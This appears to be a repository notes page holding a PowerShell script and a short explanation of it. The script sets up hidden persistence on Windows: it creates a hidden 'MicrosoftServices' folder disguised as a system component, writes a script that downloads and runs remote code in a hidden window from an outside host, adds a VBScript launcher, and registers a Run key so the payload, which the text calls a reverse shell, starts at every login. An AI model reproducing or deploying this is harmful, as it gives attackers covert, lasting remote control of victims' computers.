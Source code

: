 # Powershell commands 


## 1. Running the script on login

```
$documentsPath = [Environment]::GetFolderPath("MyDocuments")
$folderPath = Join-Path -Path $documentsPath -ChildPath "MicrosoftServices"

if (-not (Test-Path -Path $folderPath)) {
    New-Item -Path $folderPath -ItemType Directory | Out-Null
}

$xContent = @'
powershell -c "Start-Process -WindowStyle Hidden powershell -ArgumentList '-c iex ((irm -Uri ''https://xyz.vercel.app'' -Headers @{''Authorization''=''Bearer xxx''}))'"
'@
$xPath = Join-Path -Path $folderPath -ChildPath "x.ps1"
Set-Content -Path $xPath -Value $xContent

# VBScript (y.vbs) content (fixed version)
$yContent = @'
Set objShell = CreateObject("WScript.Shell")
userProfile = objShell.ExpandEnvironmentStrings("%USERPROFILE%")
scriptPath = userProfile & "\Documents\MicrosoftServices\x.ps1"
objShell.Run "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File """ & scriptPath & """", 0, False
'@
$yPath = Join-Path -Path $folderPath -ChildPath "y.vbs"
Set-Content -Path $yPath -Value $yContent

Set-ItemProperty -Path $folderPath -Name Attributes -Value ([System.IO.FileAttributes]::Hidden)
Set-ItemProperty -Path $xPath -Name Attributes -Value ([System.IO.FileAttributes]::Hidden)
Set-ItemProperty -Path $yPath -Name Attributes -Value ([System.IO.FileAttributes]::Hidden)

$regPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
$regName = "MicrosoftServices"
$regValue = "wscript.exe `"$yPath`""

if (-not (Get-ItemProperty -Path $regPath -Name $regName -ErrorAction SilentlyContinue)) {
    New-ItemProperty -Path $regPath -Name $regName -Value $regValue -PropertyType String | Out-Null
}

Write-Host "1"
```
What this does:
- creating a hidden folder `MicrosoftServices` in the user's Documents folder (can be anywhere)
- adds a .ps1 script that contains the api call for the revershe Shell script
- adds a vbs script that runs the powershell script in the background
- creates a registry key in HKCU (on login), that runs the vbs file
